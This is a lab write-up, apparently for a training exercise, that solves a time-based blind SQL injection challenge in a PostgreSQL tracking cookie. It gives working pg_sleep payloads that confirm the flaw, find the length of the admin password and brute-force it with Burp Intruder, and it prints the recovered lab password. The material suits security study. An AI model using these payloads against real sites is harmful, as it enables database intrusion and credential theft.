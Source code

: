 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/235337277-b7cfdf45-ee8c-4f35-a1b6-9f61d84c060c.png)

## Solution :

The captured request is as follows ,

![image](https://user-images.githubusercontent.com/67383098/235337385-2829f53c-2235-4c53-b6ea-411c43fbb084.png)


The query looks somethiung like this :

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''
```

#### Confirm that blind sql injection works -

Modify the cookie value

Since it is a POSTgreSQL , we use the following syntax

![image](https://user-images.githubusercontent.com/67383098/235337455-806b3524-1ab6-4846-8487-82a7ced09c22.png)


```sql
TrackingId=x';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
We get response after 10 sec delay, which confirms the blind SQL injection vulnerability

![image](https://user-images.githubusercontent.com/67383098/235337495-e2c7812c-6c28-4eb1-8e72-28c31d2e3d5e.png)

Change the boolean condition (1=2) to verify it

```sql
TrackingId=x';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

We get a response immediately which means the condition failed (1=2)

![image](https://user-images.githubusercontent.com/67383098/235337615-342a6611-96e3-4c40-b6aa-7cc03364d02f.png)

#### Verify administrator user exists -


```sql
TrackingId=x';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```
It takes 10 sec to respond which means there is indeed a user called administrator

![image](https://user-images.githubusercontent.com/67383098/235337755-ba4a4955-df05-4ec8-858f-759d7e226669.png)

#### Find the length of admin's password -

To determine how many characters are in the password of the administrator user. To do this, change the value to: 

The below payload checks if the length is > 1.

```sql
';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

![image](https://user-images.githubusercontent.com/67383098/235337977-f06373ee-39e8-4520-9ace-649ed5ca5d02.png)


It takes 10 sec delay to respond which means it is > 1 character.

Automate this process,

1. Send the req to intruder
2. Add length of password part as payload *(>1)*
3. Payload type - Sniper
4. Payload - Numbers (1 to 50 with step 1)

Add an extra column called `Response Received` to show the response time of each request.


At a payload 20 , the delay of response does not happen, means the length of password is **20 characters**

![image](https://user-images.githubusercontent.com/67383098/235339385-d242334c-3899-443f-a1ea-92af5bdaa18d.png)

#### Bruteforce the admin's password -

To bruteforce the password, we use a payload where we take first letter of the password and try to match it with all alphabets and numbers. If it matches then we get a 10 sec delay. 

```sql
TrackingId=x'%3BSELECT+CASE+WHEN (username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Automate this 

1. Add the part which replaces the first character ($1$,1) as payload 1.
2. Add the character to be matched against ('a') as payload 2.
3. Attack type - Cluster Bomb 
4. Payload 1 - Numbers (1 to20 with step 1)
5. Payload 2 - Bruteforcer (min & max length as 1)

Once we get the result, we can segregate the result and get the password like before, since we can't arrange both *response received* and *payload1* together. 

So,

Highlight the requests which has 10 sec delay.

![image](https://user-images.githubusercontent.com/67383098/235340161-e123f6b0-6271-404d-a163-bb6badcfdbb0.png)


Select **Show only highlighted items** filter

![image](https://user-images.githubusercontent.com/67383098/235340232-1cb00684-a963-4f02-862e-1a557824eb25.png)

Now we get only the 20 items.NOw we can segregate in order based on PAYLOAD 1.

![image](https://user-images.githubusercontent.com/67383098/235340337-4f4e9562-24ed-4e28-bde8-0e8c75527bba.png)



We get the password of admin as - `30mmlu0fageqdcj4qv04`


![image](https://user-images.githubusercontent.com/67383098/235340410-dc85637a-1b7a-4296-9d68-951ad37af294.png)
















